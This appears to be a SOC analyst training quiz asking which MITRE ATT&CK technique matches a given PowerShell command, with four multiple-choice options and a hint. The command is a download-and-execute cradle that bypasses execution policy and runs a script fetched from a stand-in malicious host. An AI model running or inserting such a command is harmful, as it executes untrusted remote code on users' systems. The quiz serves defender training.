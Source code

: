 # **Challenge 1.8.2: MITRE ATT&CK Framework (Basics)**

---

### **description:**

🔍 As a Level 1 SOC Analyst, you come across the following PowerShell command during an investigation:

---
```plaintext
powershell.exe -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.example.com/script.ps1')"
```
🤔 Question:

Identify the MITRE ATT&CK technique associated with the execution of this PowerShell command.

🔘 ```A. T1059.001 - PowerShell```

🔘 ```B. T1105 - Remote File Copy```

🔘 ```C. T1041 - Exfiltration Over Command and Control Channel```

🔘 ```D. T1021.001 - Remote Services: Remote Desktop Protocol```

💡 Hint: Analyze the purpose and functionality of the PowerShell command to determine the relevant MITRE ATT&CK technique.

🚀 Ready to answer? Go on and make your choice!